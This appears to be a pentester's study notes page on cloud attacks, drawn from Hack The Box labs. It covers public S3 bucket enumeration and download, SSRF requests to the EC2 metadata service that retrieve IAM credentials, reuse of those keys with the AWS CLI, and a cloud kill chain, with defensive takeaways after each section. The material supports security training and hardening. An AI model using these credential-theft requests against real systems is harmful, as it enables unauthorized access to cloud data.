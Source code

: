 # Cloud

## Cloud Pentesting

[https://cloud.hacktricks.xyz/](https://cloud.hacktricks.xyz/)

[https://www.hackthebox.com/blog/intro-cloud-pentesting](https://www.hackthebox.com/blog/intro-cloud-pentesting)

There are several benefits of using the cloud:

* Data access is available at any time and from any location.
* Improved security (Cloud providers can fix the issue once and for everyone)
* Reduced cost in CAPEX vs OPEX spend, and PAYG serverless compute (elasticity)
* Scalability and flexibility, allowing businesses to be responsive
* A single pane of glass for management and monitoring
* Built-in security suites such as Azure Sentinel

Dangerous migration

* Default service accounts with excessive privileges
* Lack of visibility (leading to shadow IT)
* Lack of personnel with the necessary expertise to manage cloud applications and services ​​security
* Misconfigurations that expose sensitive data
* Misunderstanding or a lack of awareness of the relationships and access controls between provisioned cloud resources
* Misuse or a lack of policy that would have prevented misconfigurations or weak security settings
* Publicly exposed Cloud services

There are websites such as [https://buckets.grayhatwarfare.com/](https://buckets.grayhatwarfare.com/), that allow us to search AWS S3 and Azure blob resources containing publicly accessible data.

{% code overflow="wrap" fullWidth="true" %}
```bash
# Inspecting the source code, we may find a link to a cloud platform (AWS bucket for example)
# Let’s install the AWS CLI in order to interact with this resource
sudo pip install awscli --upgrade --user
# Then, to recursively list the contents of this bucket, issue the command below.
aws s3 ls s3://megabank-supportstorage --recursive
# Download files/folders locally
aws s3 sync s3://megabank-supportstorage/$FOLDER/ 
```
{% endcode %}

Takeaways:

1. Don’t enable public access for cloud storage if this is not required.
2. Don’t store confidential information on cloud storage that might be legitimately configured for public access.
3. Name cloud storage appropriately so that it is obvious what the storage is for.

## Compute Instance Metadata

{% code overflow="wrap" fullWidth="true" %}
```sh
# The Instance Metadata service is bound to the IP address 169.254.169.254, which is an internal link-local address that is not exposed or routable externally. We can interact with the service locally via a REST API. Issue the command below to return the EC2 metadata.
curl 169.254.169.254/latest/meta-data/
# This metadata can contain sensitive information such as credentials, if the administrators have attached an IAM role to the EC2 instance. 
# As the metadata is only accessible internally, SSRF vulns might be even more serious.
# Methods disccused will work if IMDSv1 is enabled and not with IMDSv2. However, IMDSv1 is still enabled by default.
http://megalogistic.htb/status.php?name=169.254.169.254/latest/meta-data/
# Navigating to the path /latest/meta-data/iam/info reveals that an IAM role named support has been attached to the EC2 instance.
http://megalogistic.htb/status.php?name=169.254.169.254/latest/meta-data/iam/info
# Issuing the request below is successful, and we gained some keys for the IAM user!
http://megalogistic.htb/status.php?name=169.254.169.254/latest/meta-data/iam/security-credentials/support
```
{% endcode %}

The AccessKeyId and SecretAccessKey are used to sign programmatic requests that we make to AWS. We also see a time-limited session token, provided by the AWS Security Token Service (AWS STS), that allows us to authenticate to cloud resources. The command _**aws configure**_ allows us to save these values to an AWS credentials file, located at \~/.aws/credentials.

{% code overflow="wrap" fullWidth="true" %}
```bash
# Next, separately issue the command below to add the session token to the credential file.
aws configure set aws_session_token "<token_value>"
# Verify current role (effectively whoami for AWS)
aws sts get-caller-identity # the user is assumed-role/USERNAME/i-...
# See privileges
 aws iam list-attached-user-policies --user-name support
```
{% endcode %}

#### Takeaways:

1. Utilize version 2 of the Instance Metadata Service (IMDSv2).
2. If you need to assign an IAM role to an EC2 instance, ensure that this only has the minimum permissions needed to perform the required tasks (in line with the principle of least privilege).
3. Be mindful that the presence of instance metadata can make vulnerabilities such as SSRF much more dangerous.

## The Cloud Infrastructure Kill Chain

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

A kill chain is useful to conceptualize and associate the steps that attackers might take in different phases of their operation.&#x20;

Recon involves enumeration and footprinting of the cloud infrastructure attack surface, as well as interacting with publicly exposed cloud services. Low hanging fruit such as S3 buckets and Azure/GCP storage buckets might yield cloud and SSH keys, passwords, confidential documents and personally identifiable information (PII). With access to keys or other credentials, we could look to infiltrate the target environment. Initial situational awareness activities will be undertaken, such as identification of other cloud resources and of the permissions and privileges associated with their current user or application.

With a foothold in the cloud infrastructure, we would then look to undertake privilege escalation activities. Privilege escalation within a specific cloud resource or the general cloud environment is useful, as it allows us to undertake additional activities, such as accessing other users’ data and cloud shell files, or capture traffic, and demonstrates the impact of our compromise. Being able to assume the role of a more privileged user also increases the likelihood of us being able to move laterally between cloud resources, accounts (AWS), projects (GCP) resource groups (Azure), or move laterally from an Azure tenant to an on-prem AD domain. In the final stage, we can demonstrate impact by the secure exfiltration of resources (assuming that this has been approved by the client).
